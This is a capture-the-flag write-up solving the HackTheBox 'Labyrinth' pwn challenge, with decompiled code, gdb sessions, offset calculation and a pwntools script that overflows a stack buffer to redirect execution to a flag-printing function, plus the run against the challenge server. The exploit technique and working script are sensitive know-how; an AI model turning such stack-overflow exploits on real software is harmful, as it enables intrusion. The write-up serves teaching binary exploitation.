

# CTF HackTheBox - Cyber Apocalypse 2023 - The Cursed Mission - Labyrinth

Category: Pwn, Points: 300




Attached file [pwn_labyrinth.zip](./pwn_labyrinth.zip)

# Labyrinth Solution

Let's use `checksec` to examine the binary:
```console
┌─[evyatar9@parrot]─[/ctf_htb/cyber_apocalypse/pwn/Labyrinth]
└──╼ $ checksec labyrinth
   Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'./glibc/'
```

The binary has [Full RELRO](https://ctf101.org/binary-exploitation/relocation-read-only/) enabled, which removes the possibility of a [GOT](https://ctf101.org/binary-exploitation/what-is-the-got/) overwrite attack. Additionally, there is no [stack canary](https://ctf101.org/binary-exploitation/stack-canaries/) and no PIE, which means we can use a straightforward ROP technique.

Upon executing the binary, we obtain the following output:
```console
┌─[evyatar9@parrot]─[/ctf_htb/cyber_apocalypse/pwn/labyrinth]
└──╼ $ ./labyrinth 


▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒
▒-▸        ▒           ▒          ▒
▒-▸        ▒     O     ▒          ▒
▒-▸        ▒    '|'    ▒          ▒
▒-▸        ▒    / \    ▒          ▒
▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▲△▲△▲△▲△▲△▒

Select door: 

Door: 001 Door: 002 Door: 003 Door: 004 Door: 005 Door: 006 Door: 007 Door: 008 Door: 009 Door: 010 
Door: 011 Door: 012 Door: 013 Door: 014 Door: 015 Door: 016 Door: 017 Door: 018 Door: 019 Door: 020 
Door: 021 Door: 022 Door: 023 Door: 024 Door: 025 Door: 026 Door: 027 Door: 028 Door: 029 Door: 030 
Door: 031 Door: 032 Door: 033 Door: 034 Door: 035 Door: 036 Door: 037 Door: 038 Door: 039 Door: 040 
Door: 041 Door: 042 Door: 043 Door: 044 Door: 045 Door: 046 Door: 047 Door: 048 Door: 049 Door: 050 
Door: 051 Door: 052 Door: 053 Door: 054 Door: 055 Door: 056 Door: 057 Door: 058 Door: 059 Door: 060 
Door: 061 Door: 062 Door: 063 Door: 064 Door: 065 Door: 066 Door: 067 Door: 068 Door: 069 Door: 070 
Door: 071 Door: 072 Door: 073 Door: 074 Door: 075 Door: 076 Door: 077 Door: 078 Door: 079 Door: 080 
Door: 081 Door: 082 Door: 083 Door: 084 Door: 085 Door: 086 Door: 087 Door: 088 Door: 089 Door: 090 
Door: 091 Door: 092 Door: 093 Door: 094 Door: 095 Door: 096 Door: 097 Door: 098 Door: 099 Door: 100 

>> 

```

Upon decompiling the binary using [Ghidra](https://github.com/NationalSecurityAgency/ghidra), we can observe the following `main` function:
```c
undefined8 main(void)

{
  int iVar1;
  undefined8 local_38;
  undefined8 local_30;
  undefined8 local_28;
  undefined8 local_20;
  char *local_18;
  ulong local_10;
  
  setup();
  banner();
  local_38 = 0;
  local_30 = 0;
  local_28 = 0;
  local_20 = 0;
  fwrite("\nSelect door: \n\n",1,0x10,stdout);
  for (local_10 = 1; local_10 < 0x65; local_10 = local_10 + 1) {
    if (local_10 < 10) {
      fprintf(stdout,"Door: 00%d ",local_10);
    }
    else if (local_10 < 100) {
      fprintf(stdout,"Door: 0%d ",local_10);
    }
    else {
      fprintf(stdout,"Door: %d ",local_10);
    }
    if ((local_10 % 10 == 0) && (local_10 != 0)) {
      putchar(10);
    }
  }
  fwrite(&DAT_0040248f,1,4,stdout);
  local_18 = (char *)malloc(0x10);
  fgets(local_18,5,stdin);
  iVar1 = strncmp(local_18,"69",2);
  if (iVar1 != 0) {
    iVar1 = strncmp(local_18,"069",3);
    if (iVar1 != 0) goto LAB_004015da;
  }
  fwrite("\nYou are heading to open the door but you suddenly see something on the wall:\n\n\"Fly li ke a bird and be free!\"\n\nWould you like to change the door you chose?\n\n>> "
         ,1,0xa0,stdout);
  fgets((char *)&local_38,0x44,stdin);
LAB_004015da:
  fprintf(stdout,"\n%s[-] YOU FAILED TO ESCAPE!\n\n",&DAT_00402541);
  return 0;
}
```

However, if we choose the door `69` or `069`, we get another opportunity to input a value. If we fail to provide the value, it will be stored in the `local_38` variable, which has a size of `0x44` and can lead to a stack overflow.

Upon analyzing the decompiled binary using `Ghidra`, we discovered another function named `escape_plan`:
```c
void escape_plan(void)
{
  ssize_t sVar1;
  char local_d;
  int local_c;
  
  putchar(10);
  fwrite(&DAT_00402018,1,0x1f0,stdout);
  fprintf(stdout,
          "\n%sCongratulations on escaping! Here is a sacred spell to help you continue your journey : %s\n"
          ,&DAT_0040220e,&DAT_00402209);
  local_c = open("./flag.txt",0);
  if (local_c < 0) {
    perror("\nError opening flag.txt, please contact an Administrator.\n\n");
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  while( true ) {
    sVar1 = read(local_c,&local_d,1);
    if (sVar1 < 1) break;
    fputc((int)local_d,stdout);
  }
  close(local_c);
  return;
}
```

It appears that this function `escape_plan` is responsible for printing the flag.

Therefore, in order to obtain the flag, we need to overwrite the `RIP` address with the address of the `escape_plan` function, which can be achieved by exploiting the stack overflow.

To determine the exact offset between `local_38` and `RIP`, we can use gdb.

Disassemble `main` function:
```console
┌─[evyatar9@parrot]─[/ctf_htb/cyber_apocalypse/pwn/labyrinth]
└──╼ $  gdb labyrinth
gef➤  disassemble main
gef➤  disassemble main
Dump of assembler code for function main:
   0x0000000000401405 <+0>:	push   rbp
   0x0000000000401406 <+1>:	mov    rbp,rsp
   0x0000000000401409 <+4>:	sub    rsp,0x30
   0x000000000040140d <+8>:	call   0x4013ae <setup>
   0x0000000000401412 <+13>:	call   0x40137b <banner>
   0x0000000000401417 <+18>:	mov    QWORD PTR [rbp-0x30],0x0
   0x000000000040141f <+26>:	mov    QWORD PTR [rbp-0x28],0x0
   0x0000000000401427 <+34>:	mov    QWORD PTR [rbp-0x20],0x0
   0x000000000040142f <+42>:	mov    QWORD PTR [rbp-0x18],0x0
   0x0000000000401437 <+50>:	mov    rax,QWORD PTR [rip+0x2bd2]        # 0x404010 <stdout@GLIBC_2.2.5>
   0x000000000040143e <+57>:	mov    rcx,rax
   0x0000000000401441 <+60>:	mov    edx,0x10
   0x0000000000401446 <+65>:	mov    esi,0x1
   0x000000000040144b <+70>:	lea    rdi,[rip+0x100b]        # 0x40245d
   0x0000000000401452 <+77>:	call   0x401130 <fwrite@plt>
   0x0000000000401457 <+82>:	mov    QWORD PTR [rbp-0x8],0x1
   0x000000000040145f <+90>:	jmp    0x401519 <main+276>
   0x0000000000401464 <+95>:	cmp    QWORD PTR [rbp-0x8],0x9
   0x0000000000401469 <+100>:	ja     0x40148c <main+135>
   0x000000000040146b <+102>:	mov    rax,QWORD PTR [rip+0x2b9e]        # 0x404010 <stdout@GLIBC_2.2.5>
   0x0000000000401472 <+109>:	mov    rdx,QWORD PTR [rbp-0x8]
   0x0000000000401476 <+113>:	lea    rsi,[rip+0xff1]        # 0x40246e
   0x000000000040147d <+120>:	mov    rdi,rax
   0x0000000000401480 <+123>:	mov    eax,0x0
   0x0000000000401485 <+128>:	call   0x4010c0 <fprintf@plt>
   0x000000000040148a <+133>:	jmp    0x4014d3 <main+206>
   0x000000000040148c <+135>:	cmp    QWORD PTR [rbp-0x8],0x63
   0x0000000000401491 <+140>:	ja     0x4014b4 <main+175>
   0x0000000000401493 <+142>:	mov    rax,QWORD PTR [rip+0x2b76]        # 0x404010 <stdout@GLIBC_2.2.5>
   0x000000000040149a <+149>:	mov    rdx,QWORD PTR [rbp-0x8]
   0x000000000040149e <+153>:	lea    rsi,[rip+0xfd5]        # 0x40247a
   0x00000000004014a5 <+160>:	mov    rdi,rax
   0x00000000004014a8 <+163>:	mov    eax,0x0
   0x00000000004014ad <+168>:	call   0x4010c0 <fprintf@plt>
   0x00000000004014b2 <+173>:	jmp    0x4014d3 <main+206>
   0x00000000004014b4 <+175>:	mov    rax,QWORD PTR [rip+0x2b55]        # 0x404010 <stdout@GLIBC_2.2.5>
   0x00000000004014bb <+182>:	mov    rdx,QWORD PTR [rbp-0x8]
   0x00000000004014bf <+186>:	lea    rsi,[rip+0xfbf]        # 0x402485
   0x00000000004014c6 <+193>:	mov    rdi,rax
   0x00000000004014c9 <+196>:	mov    eax,0x0
   0x00000000004014ce <+201>:	call   0x4010c0 <fprintf@plt>
   0x00000000004014d3 <+206>:	mov    rcx,QWORD PTR [rbp-0x8]
   0x00000000004014d7 <+210>:	movabs rdx,0xcccccccccccccccd
   0x00000000004014e1 <+220>:	mov    rax,rcx
   0x00000000004014e4 <+223>:	mul    rdx
   0x00000000004014e7 <+226>:	shr    rdx,0x3
   0x00000000004014eb <+230>:	mov    rax,rdx
   0x00000000004014ee <+233>:	shl    rax,0x2
   0x00000000004014f2 <+237>:	add    rax,rdx
   0x00000000004014f5 <+240>:	add    rax,rax
   0x00000000004014f8 <+243>:	sub    rcx,rax
   0x00000000004014fb <+246>:	mov    rdx,rcx
   0x00000000004014fe <+249>:	test   rdx,rdx
   0x0000000000401501 <+252>:	jne    0x401514 <main+271>
   0x0000000000401503 <+254>:	cmp    QWORD PTR [rbp-0x8],0x0
   0x0000000000401508 <+259>:	je     0x401514 <main+271>
   0x000000000040150a <+261>:	mov    edi,0xa
   0x000000000040150f <+266>:	call   0x401030 <putchar@plt>
   0x0000000000401514 <+271>:	add    QWORD PTR [rbp-0x8],0x1
   0x0000000000401519 <+276>:	cmp    QWORD PTR [rbp-0x8],0x64
   0x000000000040151e <+281>:	jbe    0x401464 <main+95>
   0x0000000000401524 <+287>:	mov    rax,QWORD PTR [rip+0x2ae5]        # 0x404010 <stdout@GLIBC_2.2.5>
   0x000000000040152b <+294>:	mov    rcx,rax
   0x000000000040152e <+297>:	mov    edx,0x4
   0x0000000000401533 <+302>:	mov    esi,0x1
   0x0000000000401538 <+307>:	lea    rdi,[rip+0xf50]        # 0x40248f
   0x000000000040153f <+314>:	call   0x401130 <fwrite@plt>
   0x0000000000401544 <+319>:	mov    edi,0x10
   0x0000000000401549 <+324>:	call   0x4010d0 <malloc@plt>
   0x000000000040154e <+329>:	mov    QWORD PTR [rbp-0x10],rax
   0x0000000000401552 <+333>:	mov    rdx,QWORD PTR [rip+0x2ac7]        # 0x404020 <stdin@GLIBC_2.2.5>
   0x0000000000401559 <+340>:	mov    rax,QWORD PTR [rbp-0x10]
   0x000000000040155d <+344>:	mov    esi,0x5
   0x0000000000401562 <+349>:	mov    rdi,rax
   0x0000000000401565 <+352>:	call   0x4010b0 <fgets@plt>
   0x000000000040156a <+357>:	mov    rax,QWORD PTR [rbp-0x10]
   0x000000000040156e <+361>:	mov    edx,0x2
   0x0000000000401573 <+366>:	lea    rsi,[rip+0xf1a]        # 0x402494
   0x000000000040157a <+373>:	mov    rdi,rax
   0x000000000040157d <+376>:	call   0x401040 <strncmp@plt>
   0x0000000000401582 <+381>:	test   eax,eax
   0x0000000000401584 <+383>:	je     0x4015a2 <main+413>
   0x0000000000401586 <+385>:	mov    rax,QWORD PTR [rbp-0x10]
   0x000000000040158a <+389>:	mov    edx,0x3
   0x000000000040158f <+394>:	lea    rsi,[rip+0xf01]        # 0x402497
   0x0000000000401596 <+401>:	mov    rdi,rax
   0x0000000000401599 <+404>:	call   0x401040 <strncmp@plt>
   0x000000000040159e <+409>:	test   eax,eax
   0x00000000004015a0 <+411>:	jne    0x4015da <main+469>
   0x00000000004015a2 <+413>:	mov    rax,QWORD PTR [rip+0x2a67]        # 0x404010 <stdout@GLIBC_2.2.5>
   0x00000000004015a9 <+420>:	mov    rcx,rax
   0x00000000004015ac <+423>:	mov    edx,0xa0
   0x00000000004015b1 <+428>:	mov    esi,0x1
   0x00000000004015b6 <+433>:	lea    rdi,[rip+0xee3]        # 0x4024a0
   0x00000000004015bd <+440>:	call   0x401130 <fwrite@plt>
   0x00000000004015c2 <+445>:	mov    rdx,QWORD PTR [rip+0x2a57]        # 0x404020 <stdin@GLIBC_2.2.5>
   0x00000000004015c9 <+452>:	lea    rax,[rbp-0x30]
   0x00000000004015cd <+456>:	mov    esi,0x44
   0x00000000004015d2 <+461>:	mov    rdi,rax
   0x00000000004015d5 <+464>:	call   0x4010b0 <fgets@plt>
   0x00000000004015da <+469>:	mov    rax,QWORD PTR [rip+0x2a2f]        # 0x404010 <stdout@GLIBC_2.2.5>
   0x00000000004015e1 <+476>:	lea    rdx,[rip+0xf59]        # 0x402541
   0x00000000004015e8 <+483>:	lea    rsi,[rip+0xf61]        # 0x402550
   0x00000000004015ef <+490>:	mov    rdi,rax
   0x00000000004015f2 <+493>:	mov    eax,0x0
   0x00000000004015f7 <+498>:	call   0x4010c0 <fprintf@plt>
   0x00000000004015fc <+503>:	mov    eax,0x0
   0x0000000000401601 <+508>:	leave  
   0x0000000000401602 <+509>:	ret    

```

Based on the decompiled code, we need to set a breakpoint after the second input on `0x00000000004015da <+469>: mov rax,QWORD PTR [rip+0x2a2f] # 0x404010 <stdout@GLIBC_2.2.5>`.

To set the breakpoint on `b *main+469`, we can execute the following commands:
```console
gef➤  b *main+469
Breakpoint 1 at 0x4015da
gef➤  r
Starting program: /ctf_htb/cyber_apocalypse/pwn/labyrinth/labyrinth 
[*] Failed to find objfile or not a valid file format: [Errno 2] No such file or directory: 'system-supplied DSO at 0x7ffff7fc1000'


▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒
▒-▸        ▒           ▒          ▒
▒-▸        ▒     O     ▒          ▒
▒-▸        ▒    '|'    ▒          ▒
▒-▸        ▒    / \    ▒          ▒
▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▲△▲△▲△▲△▲△▒

Select door: 

Door: 001 Door: 002 Door: 003 Door: 004 Door: 005 Door: 006 Door: 007 Door: 008 Door: 009 Door: 010 
Door: 011 Door: 012 Door: 013 Door: 014 Door: 015 Door: 016 Door: 017 Door: 018 Door: 019 Door: 020 
Door: 021 Door: 022 Door: 023 Door: 024 Door: 025 Door: 026 Door: 027 Door: 028 Door: 029 Door: 030 
Door: 031 Door: 032 Door: 033 Door: 034 Door: 035 Door: 036 Door: 037 Door: 038 Door: 039 Door: 040 
Door: 041 Door: 042 Door: 043 Door: 044 Door: 045 Door: 046 Door: 047 Door: 048 Door: 049 Door: 050 
Door: 051 Door: 052 Door: 053 Door: 054 Door: 055 Door: 056 Door: 057 Door: 058 Door: 059 Door: 060 
Door: 061 Door: 062 Door: 063 Door: 064 Door: 065 Door: 066 Door: 067 Door: 068 Door: 069 Door: 070 
Door: 071 Door: 072 Door: 073 Door: 074 Door: 075 Door: 076 Door: 077 Door: 078 Door: 079 Door: 080 
Door: 081 Door: 082 Door: 083 Door: 084 Door: 085 Door: 086 Door: 087 Door: 088 Door: 089 Door: 090 
Door: 091 Door: 092 Door: 093 Door: 094 Door: 095 Door: 096 Door: 097 Door: 098 Door: 099 Door: 100 

>> 069

You are heading to open the door but you suddenly see something on the wall:

"Fly like a bird and be free!"

Would you like to change the door you chose?

>> AAAAAAAAAAAAAAAAAAAA

Breakpoint 1, 0x00000000004015da in main ()

[ Legend: Modified register | Code | Heap | Stack | String ]
─────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0x007fffffffddb0  →  "AAAAAAAAAAAAAAAAAAAA\n"
$rbx   : 0x0               
$rcx   : 0x007ffff7ea7992  →  0x5677fffff0003d48 ("H="?)
$rdx   : 0xfbad208b        
$rsp   : 0x007fffffffddb0  →  "AAAAAAAAAAAAAAAAAAAA\n"
$rbp   : 0x007fffffffdde0  →  0x0000000000000001
$rsi   : 0x007ffff7facb23  →  0xfaea80000000000a ("\n"?)
$rdi   : 0x007ffff7faea80  →  0x0000000000000000
$rip   : 0x000000004015da  →  <main+469> mov rax, QWORD PTR [rip+0x2a2f]        # 0x404010 <stdout@GLIBC_2.2.5>
$r8    : 0x0               
$r9    : 0x0               
$r10   : 0xfffffffffffff000
$r11   : 0x246             
$r12   : 0x007fffffffdef8  →  0x007fffffffe246  →  "/ctf_htb/cyber_apocalypse/pwn/labyrinth[...]"
$r13   : 0x00000000401405  →  <main+0> push rbp
$r14   : 0x0               
$r15   : 0x007ffff7ffd040  →  0x007ffff7ffe2e0  →  0x0000000000000000
$eflags: [ZERO carry PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x33 $ss: 0x2b $ds: 0x00 $es: 0x00 $fs: 0x00 $gs: 0x00 
─────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x007fffffffddb0│+0x0000: "AAAAAAAAAAAAAAAAAAAA\n"	 ← $rax, $rsp
0x007fffffffddb8│+0x0008: "AAAAAAAAAAAA\n"
0x007fffffffddc0│+0x0010: 0x00000a41414141 ("AAAA\n"?)
0x007fffffffddc8│+0x0018: 0x0000000000000000
0x007fffffffddd0│+0x0020: 0x000000004052a0  →  0x0000000a393630 ("069\n"?)
0x007fffffffddd8│+0x0028: 0x00000000000065 ("e"?)
0x007fffffffdde0│+0x0030: 0x0000000000000001	 ← $rbp
0x007fffffffdde8│+0x0038: 0x007ffff7dbcd90  →   mov edi, eax
───────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
     0x4015cd <main+456>       mov    esi, 0x44
     0x4015d2 <main+461>       mov    rdi, rax
     0x4015d5 <main+464>       call   0x4010b0 <fgets@plt>
 →   0x4015da <main+469>       mov    rax, QWORD PTR [rip+0x2a2f]        # 0x404010 <stdout@GLIBC_2.2.5>
     0x4015e1 <main+476>       lea    rdx, [rip+0xf59]        # 0x402541
     0x4015e8 <main+483>       lea    rsi, [rip+0xf61]        # 0x402550
     0x4015ef <main+490>       mov    rdi, rax
     0x4015f2 <main+493>       mov    eax, 0x0
     0x4015f7 <main+498>       call   0x4010c0 <fprintf@plt>
───────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "labyrinth", stopped 0x4015da in main (), reason: BREAKPOINT
─────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x4015da → main()
──────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤
```

After setting the breakpoint, we can input `AAAAAAAAAAAAAAAAAAAA` and execute the program until it hits the breakpoint.

Once the program hits the breakpoint, we can use search-pattern to find our input in the memory:
```console
gef➤  search-pattern AAAAAAAAAAAAA
[+] Searching 'AAAAAAAAAAAAA' in memory
[+] In '[stack]'(0x7ffffffde000-0x7ffffffff000), permission=rw-
  0x7fffffffddb0 - 0x7fffffffddc6  →   "AAAAAAAAAAAAAAAAAAAA\n" 
```

This will search for our input in the memory and display the memory address where it is located. We can use this address to determine the exact offset between `local_38` and RIP.

We found the input at address `0x7fffffffddb0`, We can use the `info frame` (`i f`) command to locate the address of `RIP`:
```console
gef➤  i f
Stack level 0, frame at 0x7fffffffddf0:
 rip = 0x4015da in main; saved rip = 0x7ffff7dbcd90
 Arglist at 0x7fffffffdde0, args: 
 Locals at 0x7fffffffdde0, Previous frame's sp is 0x7fffffffddf0
 Saved registers:
  rbp at 0x7fffffffdde0, rip at 0x7fffffffdde8
```

Based on the calculation, the offset between local_38 and RIP is `0x7fffffffdde8-0x7fffffffddb0=0x38` which is `56`.

We also need the address of the `escape_plan` function:
```console
gef➤  print escape_plan 
$1 = {<text variable, no debug info>} 0x401255 <escape_plan>
```

To recap, we have the following information:

1. The offset between the buffer `local_38` and `RIP` is `56` bytes.
2. The target address of the `escape_plan` function is `0x401255`.

We need to add a `ret` instruction because the stack is misaligned.

We can use this information to craft our exploit and overwrite the value of `RIP` with the address of the `escape_plan` function, which will cause the program to jump to the `escape_plan` function and print the flag.

We can obtain the ret instruction address using `ROPgadget`. The `ret` instruction is required to fix the misalignment of the stack caused by the stack overflow:
```console
┌─[evyatar9@parrot]─[/ctf_htb/cyber_apocalypse/pwn/labyrinth]
└──╼ $ ROPgadget --binary ./labyrinth --only "ret"
Gadgets information
============================================================
0x0000000000401016 : ret
...

Unique gadgets found: 2
```

Let's solve it using the following script [solve.py](./solve.py):
```python
from pwn import *

elf = ELF('./labyrinth')
libc = elf.libc

if args.REMOTE:
    p = remote('209.97.134.50', 31510)
else:
    p = process(elf.path)

ret_addr = p64(0x401016) # From ROPgadget
payload = b"A"*(56) + ret_addr + p64(elf.symbols['escape_plan'])

print(p.recvuntil('>>').decode('utf-8'))
p.sendline("069")
print(p.recvuntil('>>').decode('utf-8'))

p.sendline(payload)
print(p.recvall().decode('utf-8'))
```

Run it:
```console
┌─[evyatar9@parrot]─[/ctf_htb/cyber_apocalypse/pwn/labyrinth]
└──╼ $ python3 solve.py REMOTE
[*] '/ctf_htb/cyber_apocalypse/pwn/labyrinth/labyrinth'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'./glibc/'
[*] '/ctf_htb/cyber_apocalypse/pwn/labyrinth/challenge/glibc/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to 138.68.158.112 on port 32726: Done


▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒
▒-▸        ▒           ▒          ▒
▒-▸        ▒     O     ▒          ▒
▒-▸        ▒    '|'    ▒          ▒
▒-▸        ▒    / \    ▒          ▒
▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▲△▲△▲△▲△▲△▒

Select door: 

Door: 001 Door: 002 Door: 003 Door: 004 Door: 005 Door: 006 Door: 007 Door: 008 Door: 009 Door: 010 
Door: 011 Door: 012 Door: 013 Door: 014 Door: 015 Door: 016 Door: 017 Door: 018 Door: 019 Door: 020 
Door: 021 Door: 022 Door: 023 Door: 024 Door: 025 Door: 026 Door: 027 Door: 028 Door: 029 Door: 030 
Door: 031 Door: 032 Door: 033 Door: 034 Door: 035 Door: 036 Door: 037 Door: 038 Door: 039 Door: 040 
Door: 041 Door: 042 Door: 043 Door: 044 Door: 045 Door: 046 Door: 047 Door: 048 Door: 049 Door: 050 
Door: 051 Door: 052 Door: 053 Door: 054 Door: 055 Door: 056 Door: 057 Door: 058 Door: 059 Door: 060 
Door: 061 Door: 062 Door: 063 Door: 064 Door: 065 Door: 066 Door: 067 Door: 068 Door: 069 Door: 070 
Door: 071 Door: 072 Door: 073 Door: 074 Door: 075 Door: 076 Door: 077 Door: 078 Door: 079 Door: 080 
Door: 081 Door: 082 Door: 083 Door: 084 Door: 085 Door: 086 Door: 087 Door: 088 Door: 089 Door: 090 
Door: 091 Door: 092 Door: 093 Door: 094 Door: 095 Door: 096 Door: 097 Door: 098 Door: 099 Door: 100 

>>
 
You are heading to open the door but you suddenly see something on the wall:

"Fly like a bird and be free!"

Would you like to change the door you chose?

>>
[+] Receiving all data: Done (656B)
[*] Closed connection to 138.68.158.112 port 32726
 
[-] YOU FAILED TO ESCAPE!


                \O/               
                 |                 
                / \               
▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒   ▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒
▒-▸        ▒           ▒          ▒
▒-▸        ▒           ▒          ▒
▒-▸        ▒           ▒          ▒
▒-▸        ▒           ▒          ▒
▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▲△▲△▲△▲△▲△▒

Congratulations on escaping! Here is a sacred spell to help you continue your journey: 
HTB{3sc4p3_fr0m_4b0v3}

``` 
And we get the flag ```HTB{3sc4p3_fr0m_4b0v3}```.